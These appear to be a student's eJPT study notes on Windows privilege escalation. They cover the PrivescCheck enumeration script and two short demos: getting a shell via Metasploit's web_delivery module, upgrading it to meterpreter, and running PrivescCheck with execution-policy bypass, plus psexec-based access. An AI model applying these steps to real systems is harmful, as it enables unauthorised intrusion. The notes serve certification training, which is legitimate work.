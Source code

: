 # 53 Windows Privilege Escalation

# Identifying Windows Privilege Escalation Vulnerabilities

## Identifying PrivEsc Vulnerabilities

- In order to elevate your privileges on Windows, you must first, identify privilege escalation vulnerabilities that exist on the target system
- This process will differ greatly based on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming and as a result, it is recommended to automate the process of identifying privilege escalation vulnerabilities. This can be done through the use of various authentication scripts.

## PrivescCheck

- **PrivescCheck**
	- This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gather various information that might be useful for exploitation and/or post-exploitation.
	- https://github.com/itm4n/PrivescCheck

### DEMO

```shell
# Example with Web_delivery
# Spwn webserver, download payload in target and then execute it
msf6: exploit(multi/script/web_delivery) 
# Run
# Copy the powershell payload and go into target system 
# Paste in CMD the payload
# Shell getted 

# Upgrade shell to meterpreter
msf6: post(multi/manage/shell_to_meterpreter)

# Run PrivescCheck
shell: powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```


# Windows Privilege Escalation

### DEMO

```shell
# Use psexec.py
psexec.py <user>@<ip>
msf6: exploit(windows/smb/psexec)
```

#cybersecurity #eJPT 